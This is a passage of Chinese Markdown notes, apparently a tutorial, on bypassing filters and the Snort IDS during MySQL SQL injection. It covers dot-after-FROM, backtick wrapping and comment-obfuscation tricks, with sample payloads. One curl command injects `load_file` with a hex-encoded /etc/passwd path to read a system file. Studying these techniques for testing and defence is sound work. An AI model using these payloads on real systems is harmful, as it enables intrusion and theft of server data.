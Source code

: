 在from后加入.，可能会出现绕过，需要注意的是，from后加.则不能跨库查表
```
select * from test where id=1 union select 1,2,3 from. abc
```

#### 原理
![](./mysql注入绕过技巧/pic2.png)


### ``绕过
1. 利用``将函数名包裹
    ```
    `load_file`(0xxxx)
    `version`()
    ```
2. 利用``将内置变量包裹
    ```
    @@`version`
    @@`datadir`
    ```
3. 利用``将列名包裹，后接from可不需要空格
    ```
    select \N,`schema_name`from information_schema.schemata
    ```
4. 利用``将表名包裹
    ```
    select * from 库.`表名`
    ```

变形后
```shell
z2pdeMacBook-Air:~ z2p$ curl "http://10.100.12.6:8008/?id=1 union select 1,`load_file`(0x2f6574632f706173737764)"
```

### /***/注释绕过
在/* */中间插入*等其他符号，来干扰snort匹配
```
select * from test union/**a*b*c*/select 1,2,3
```

### /* */注释绕过
利用特殊字符，进行绕过
* /*-%-%2b*/
* /*-%-%00*/
* /*-%-%20*/
* /*-%-%7c*/
* /**/

```
select * from test where id=1 union select 1,2,version/**/()
```
